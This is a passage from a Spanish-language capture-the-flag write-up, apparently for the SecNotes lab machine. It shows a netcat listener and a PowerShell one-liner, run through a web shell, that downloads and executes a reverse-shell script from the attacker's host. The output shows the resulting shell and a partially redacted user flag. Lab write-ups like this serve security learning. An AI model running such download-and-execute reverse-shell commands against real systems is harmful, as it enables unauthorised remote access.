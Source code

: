 Nos ponemos en escucha con `netcat` por el puerto 443.

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y ejecutamos este one-liner a través de la web shell.
```powershell
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.85:8081/Invoke-PowerShellTcp.ps1') | powershell -noprofile -
```
![Write-up Image](images/Screenshot_22.png)

Y ganamos acceso a la máquina víctima
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.18.0] 59765
Windows PowerShell running as user SECNOTES$ on SECNOTES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\new-site>whoami
secnotes\tyler
```

Y podemos leer la flag de usuario.
```powershell
PS C:\Users\tyler\Desktop> type user.txt
e175f96d71f268b1...
```

# Privilege Escalation
Según vemos la flag, nos llama la atención un acceso directo.

![Write-up Image](images/Screenshot_23.png)
